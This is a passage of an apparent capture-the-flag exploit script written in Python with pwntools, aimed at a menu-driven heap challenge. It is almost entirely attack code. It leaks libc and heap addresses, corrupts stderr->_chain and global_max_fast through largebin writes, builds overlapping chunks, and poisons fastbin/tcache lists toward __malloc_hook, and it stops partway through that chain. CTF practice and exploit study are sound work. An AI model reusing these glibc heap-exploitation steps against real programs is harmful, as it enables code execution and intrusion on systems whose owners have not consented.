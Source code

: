 ```
def free(idx):
    cmd(2)
    sla("Index:\n",str(idx))
def edit(idx,payload):
    cmd(4)
    sla("Index:\n",str(idx))
    sa("Content:\n",payload)
def ss():
    gdb.attach(p)
    pause()
def exp():
    add(0x458,"aaaa")
    add(0x500,"aaaa")
    add(0x468,"aaaa")
    add(0x500,"aaaa")#3
    add(0x500,"aaaa")#4
    add(0x500,"aaaa")#5
    add(0x500,"aaaa")#6
    add(0x500,"aaaa")#7
    add(0x500,"aaaa")#8
    #leak libc_base
    free(2)
    show(2)
    libc_base = l64()-libc.sym['__malloc_hook']-0x10-96
    lg("libc_base",libc_base)
    #put chunk2 into largebin
    add(0x600,"aaaa")#9
    #leak heap_base
    edit(2,"a"*0x19)
    show(2)
    ru("a"*0x18)
    heap_base = u64(p.recv(6).ljust(8,"\x00"))-0xc61
    lg("heap_base",heap_base) 
    #put chunk0 into unsortedbin
    free(0)
    #hijack stderr-&gt;_chain = chunk2
    edit(2,p64(0)*3+p64(0x1ec628+libc_base-0x20))#stderr-&gt;_chain
    add(0x448,"aaa")#10
    free(10)
    #hijack global_max_fast = chunk2
    edit(2,p64(0)*3+p64(0x1eeb80+libc_base-0x20))#global_max_fast
    add(0x448,"aaa")#11
    #chunk overlapping
    edit(3,"a"*0x40+p64(0)+p64(0x511))
    edit(4,"a"*0x30+p64(0)+p64(0x21)*10)
    free(3)
    edit(3,p64(heap_base+0x10c0))
    add(0x500,"aaa")
    add(0x500,"ddd")#13
    edit(4,"a"*0x90+p64(0)+p64(0x471))
    edit(13,"a"*0x4b0+p64(0)+p64(0xa1))
    #fastbin attrack
    free(4)
    edit(4,p64(libc.sym["__malloc_hook"]+libc_base-0x10)+p64(0))
    free(4)
    edit(4,p64(libc.sym["__malloc_hook"]+libc_base-0x10)+p64(0))
    """
    tcachebins
    0xa0 [  2]: 0x56074fb96590 —▸ 0x7f116d446b60 (__memalign_hook) —▸ 0x7f116d2f8570 (memalign_hook_ini) ◂— ...
    fastbins

    """
```